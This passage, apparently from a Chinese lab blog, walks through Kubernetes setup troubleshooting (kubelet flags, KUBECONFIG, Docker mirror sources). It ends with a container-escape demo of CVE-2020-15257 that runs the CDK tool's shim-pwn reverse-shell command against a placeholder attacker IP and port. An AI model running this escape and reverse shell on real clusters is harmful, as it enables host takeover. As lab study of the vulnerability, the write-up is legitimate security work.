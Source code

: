 参考链接：
[k8s报错收集汇总](https://www.yii666.com/blog/406751.html)

修改`/var/lib/kubelet/kubeadm-flags.env`文件，删除`–network-plugin=cni`部分，重启`kubelet`服务。再次在`master node`查看，发现`worker node`状态已更新。
![2023-11-02-14-17-58.png](https://s2.loli.net/2023/11/02/ghNn3LZYSRQuT1y.png)

但是，在`worker node`上执行`kubectl get nodes`语句，又出现了如下错误。
![2023-11-02-14-18-48.png](https://s2.loli.net/2023/11/02/YiJ6Ra4x57MfeSu.png)
比较特殊的是，此处的地址为`127.0.0.1:8080`，因此前往`/etc/kubernetes/`目录下，进行查看，发现之前的`admin.conf`文件已经被更改为`kubelet.conf`，直接进行环境变量修改。
![2023-11-02-14-20-20.png](https://s2.loli.net/2023/11/02/dK1GXrxl2Fi34wg.png)
```bash
echo "export KUBECONFIG=/etc/kubernetes/kubelet.conf" > ~/.bash_profile
source ~/.bash_profile
```
发现节点状态均已正常，至此，这个折磨我好多天的问题终于解决了。
![2023-11-02-14-21-25.png](https://s2.loli.net/2023/11/02/8e4jPSV9AOCElcz.png)

#### 2.4.2 Pod Pending
使用命令5在`master node`创建pod后可能会发现pod的状态一直是`pending`,并且存在`ImagePullBackOff`错误，状态截图如下：
![2023-11-02-18-09-33.png](https://s2.loli.net/2023/11/02/nhZxN6bB4Ou97zC.png)

参考链接：
[【k8s】ImagePullBackOff 错误处理](https://blog.csdn.net/m0_45406092/article/details/118889042)

出现此问题主要是由于docker拉取镜像没有配置镜像源。参考以下链接，获取阿里云镜像源地址。[Docker 设置国内镜像源](https://www.xjx100.cn/news/361998.html?action=onClick)
![2023-11-02-18-15-38.png](https://s2.loli.net/2023/11/02/wvjg3BKrSGxeUd6.png)
按照此步骤，为各个节点设置镜像源。

如果在重启后发现某一个节点突然无法使用`kubectl`指令，出现类似如下错误，那么需要再次重新设置`$KUBECONFIG`环境变量。
![2023-11-02-18-17-31.png](https://s2.loli.net/2023/11/02/D5tPjNLv4eRkG2C.png)

最终可以得到如下结果，说明pod已经部署好了。
![2023-11-02-18-18-10.png](https://s2.loli.net/2023/11/02/keWh9Ko4nbrUyMa.png)

此时可以使用`kubectl exec -it -n <namespace> <podname> /bin/bash`运行该pod，如果出现如下错误，可以在`worker node`上开启相应端口，开启后便可以正常运行。
![2023-11-02-18-21-39.png](https://s2.loli.net/2023/11/02/A2sxjm3uNeYpCBG.png)

![2023-11-02-18-22-13.png](https://s2.loli.net/2023/11/02/krfXwma2iMWYd31.png)

### 2.4.3 后渗透Demo
#### 2.4.3.1 CVE-2020-15257漏洞利用
![2023-11-06-10-12-05.png](https://s2.loli.net/2023/11/08/vYaQd4kztG1mncS.png)
在`master node`上运行pod`no-vuln`，将`cdk_linux_amd64`文件复制进pod中，在pod内执行`./cdk_linux_amd64 run shim-pwn reverse <attacker_ip> <attacker_port>`将宿主机shell反弹到远端服务器，在攻击端开启监听。获取到shell
![2023-11-03-12-00-20.png](https://s2.loli.net/2023/11/08/HfbcYDs6teULahV.png)
![2023-11-03-12-00-31.png](https://s2.loli.net/2023/11/08/cRI4q1CbKtnvW6z.png)
通过下图可以看出，当前进程具有广泛权限，可以执行各种系统操作，因为``表示进程被授予了几乎所有可能的能力，因为每一位都被设置为1。说明我们已经从pod中逃逸到了worker节点
![2023-11-06-10-06-59.png](https://s2.loli.net/2023/11/08/EmdML8hfv5GsNSk.png)
